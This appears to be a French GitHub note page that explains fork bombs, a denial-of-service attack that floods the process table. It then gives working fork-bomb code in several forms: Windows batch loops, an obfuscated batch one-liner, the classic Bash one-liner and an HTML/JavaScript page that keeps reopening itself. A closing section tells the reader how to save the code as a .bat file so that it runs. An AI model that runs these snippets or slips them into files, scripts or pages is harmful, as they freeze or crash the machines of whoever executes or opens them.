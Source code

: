 # Fork bomb
La fork bomb est une forme d'attaque par déni de service contre un système informatique utilisant la fonction fork.  

Elle est basée sur la supposition que le nombre de programmes et de processus pouvant être exécutés simultanément sur un ordinateur est limité.

## Principe
Une fork bomb fonctionne en créant un grand nombre de processus très rapidement, au moyen de la fonction fork, afin de saturer l'espace disponible dans la liste des processus gardée par le système d'exploitation.  

Si la table des processus se met à saturer, aucun nouveau programme ne peut démarrer tant qu'aucun autre ne termine.  

Même si cela arrive, il est peu probable qu'un programme utile démarre étant donné que les instances de la bombe attendent chacune d'occuper cet emplacement libre.

# Code
```
@echo off
:start
start
goto :start
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb.bat)

## Variante Windows (Batch)
```
%0|%0
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb2.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb2.bat)

## Variante Windows 2 (Batch)
```
@echo.%0^|%0>$^_^.c^md&$_>nul
```
[github.com /Altherneum/.github /blob/main /note /OS/Windows /forkBomb3.bat](https://github.com/Altherneum/.github/blob/main/note/OS/Windows/forkBomb3.bat)

## Variante Linux (Bash)
```
:(){ :|:& };:
```
[github.com /Altherneum/.github /blob/main /note /OS/Linux /forkBomb.sh](https://github.com/Altherneum/.github/blob/main/note/OS/Linux/forkBomb.sh)

## Variante HTML / JS
```
<script type="text/javascript">
  function open_target_blank() 
  {
    window.open(window.location);
  }
  window.onload = open_target_blank();
</script>
```
[github.com /Altherneum/.github /blob/main /note /Code/Web/HTML /forkBomb.html](https://github.com/Altherneum/.github/blob/main/note/Code/Web/HTML/forkBomb.html)

# Comment utiliser

## Créer le fichier
- Créer un fichier [NOM].bat
- Modifier le text du fichier avec le code suivant : [Code](#Code)
- Vérifier que vous enregistrez bien le type de fichier en "Tout type de fichier" et non pas text uniquement
![notepad_hreGWL4UXj](https://github.com/Altherneum/.github/assets/84735589/940ea3b0-9e4b-4668-9af0-2eecbf35db47)